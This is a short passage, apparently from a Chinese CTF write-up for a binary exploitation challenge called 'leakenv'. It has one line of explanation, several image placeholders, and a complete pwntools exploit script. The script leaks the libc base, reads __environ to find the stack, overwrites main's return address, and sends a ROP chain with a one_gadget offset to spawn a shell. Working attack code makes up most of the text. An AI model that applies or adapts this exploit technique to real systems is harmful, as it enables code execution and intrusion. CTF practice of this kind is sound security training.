


此时查看 main 函数中的栈，发现返回地址正好是 0x7fffacbbf498-0x100








```python
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
libc=ELF("../dist/libc.so.6")
f=ELF("../dist/leakenv")
s=process("./leakenv")
#s=remote("8.130.35.16",52003)
gdb.attach(s,"b main")

s.recvuntil(b"Here's your gift: ")
libc_base=int(s.recvline()[:-1],16)-libc.sym.printf
environ=libc.sym.__environ+libc_base
s.sendlineafter(b"read?",hex(environ)[2:].encode())

print(s.recvuntil(b"Here you are: "))
stack=u64(s.recv(8))

#print(hex(stack))

target=stack-0x100
s.sendlineafter(b"it?",hex(target)[2:].encode())
s.sendafter(b"it.\n",flat([0x0000000000023b63+libc_base,0,0,0,0,libc_base+0xe3afe]))
s.interactive()

```

